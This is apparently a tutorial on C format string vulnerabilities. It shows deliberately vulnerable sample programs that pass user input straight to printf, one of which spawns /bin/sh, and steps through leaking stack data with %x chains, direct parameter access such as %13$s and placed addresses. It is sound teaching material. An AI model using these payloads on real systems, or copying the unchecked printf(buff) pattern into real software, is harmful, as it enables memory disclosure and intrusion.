# Format string vulnerability

A format string vulnerability is a vulnerability about using vulnerable functions of the printf family, which don't check the format string itself. With a proper format specifier, you can view arbitrary data within the program, overwrite it and even control the flow of the program.

## View vulnerability

Consider this program:
```C
#include <stdio.h>
#include <string.h>

// gcc format-string.c -o format-string -m32

int main(int argc, char *argv[]){
  char buff[200];
  strncpy(buff, argv[1], 200);
  printf(buff);
  return 0;
}
```

Input usual string:
```bash
$ ./format-string "My String"
My String
```

Input string with format specifier `x`, which will show you hex:
```bash
$ ./format-string AAAA%x
AAAAfff932ef
```

You'll get some strange input...

Try another one:
```bash
$ ./format-string AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAAffd972d4.c8.5665522b.0.0.0.ffd96424.0.41414141.252e7825
```

In this case, you got another artifact. Dots here is to simplify the view.

So, the artifact 41414141 is our string that we input at the beginning of the string. And this all is a stack. The program itself gives us the content of the stack.

```bash
$ ./format-string AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x
AAAAffe442cb.c8.565d922b.0.0.0.ffe43aa4.0.41414141.252e7825.78252e78.2e78252e.252e7825
```

The next stuff is a continuation of our string.

### What can we do with it?

We can specify at the beginning of our string some address.

```bash
$ ./format-string $(python -c 'print "\xef\xbe\xad\xde" + "%x." * 100')
ﾭ�ffbb11c5.c8.565ad22b.0.0.0.ffbb0d04.0.deadbeef.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.5d688c00.ffbb0c70.0.0.f7dcdee5.f7f9a000.f7f9a000.
```

You see the value `0xdeadbeef` in the output. With different specifiers, we can write to this address or read what in this address.

## Format string specifiers

1. %d - decimal(int) - value.
2. %u - unsigned decimal(unsigned int) - value.
3. %x - hexadecimal(unsigned int) - value.
4. %s - string((const) unsigned char *) - reference.
5. %n - number of bytes written so far(* int) - reference.
6. %p - show what the pointer contains - value.

### Try different specifiers

```C
#include <stdio.h>

// gcc specifiers.c -o specifiers -m32

int main(int argc, char *argv[]){
  int num = -824;
  printf("Signed int: %d\n", num);
  unsigned int num2 = 10000;
  printf("Unsigned int: %u\n", num2);
  printf("Hexadecimal: %x\n", num);
  int *p = &num2;
  printf("Pointer: %p\n", p);
  const char *s = "Some string";
  printf("String: %s\n", s);
  int *count = &num2;
  printf("Number of bytes written: %n\n", count);
  printf("%u\n", *count);
  return 0;
}
```

On the last one, it will write the number of bytes written at the address within count pointer or num2, so, then I wrote this value and it's 25 bytes, which you can determine in python interpreter:
```bash
>>> len('Number of bytes written: ')
25
```

## Read arbitrary data

Consider this program:
```C
#include <stdio.h>
#include <string.h>
#include <unistd.h>

// gcc read-arbitrary-data.c -o read-arbitrary-data -m32

int main(int argc, char *argv[]){
  const char *allow = "Access granted.\n";
  const char *deny = "Access denied.\n";
  char buff[200];
  read(1, buff, 200);
  if (strncmp("password\0", buff, 9) == 0) {
    printf(allow);
    system("/bin/sh");
  } else {
    printf(deny);
    printf("Say goodbye!!!");
  }
  read(1, buff, 200);
  printf(buff);
}
```

Try to exploit it. Suppose that we don't know the password:
```bash
$ ./read-arbitrary-data
afasfsf
Access denied.
AAAAAAAAAAAAAAAAA
Say goodbye!!!AAAAAAAAAAAAAAAAA
```

Okay, we see that the program mirrors our string. Let's try format string.
```bash
$ ./read-arbitrary-data
asdfafaf
Access denied.
AAAA%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
Say goodbye!!!AAAAffc06134.c8.5659824d.0.100.40.ffc062c4.0.0.0.56599008.56599019.41414141.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.
```

Again, you meet the value `0x41414141` which is the beginning of our string. But, what are the values before it? Check it out with %s.
```bash
$ ./read-arbitrary-data
sadfafa
Access denied.
AAAA%s %s %s %s %s %s %s %s %s %s
Say goodbye!!!AAAAAAAA%s %s %s %s %s %s %s %s %s %s
Segmentation fault (core dumped)
```

So, the program crashed because it can't find something useful at the address, for instance from the output above, of value `100` or `40`. These values are not the right address. And that's why you need to know about direct parameter access. In other words, you don't need to input chains like `%x.%x.%x.%x.%x.%x.%x.%x.`, you can access, for example, the `0x41414141` value from the output above, with this string `%13$s`. 13 is the number of the parameter in the format string, which is the beginning of our string. BUT. The format specifier `%s` is waiting for the address, but we will give it the value `0x41414141`.

```bash
$ ./read-arbitrary-data
asfasfa
Access denied.
AAAA%13$s
Segmentation fault (core dumped)
```

The program crashed.

Thus, with a little brute-force of the direct parameter access number or just specify the needed address at the beginning of the input string, you can read arbitrary data. Let's read the strings `Access denied.` and `Access granted.` which are just before our input string.

```bash
$ ./read-arbitrary-data
asfsadfas
Access denied.
AAAA%11$s%12$s
Say goodbye!!!AAAAAccess granted.
Access denied.

```
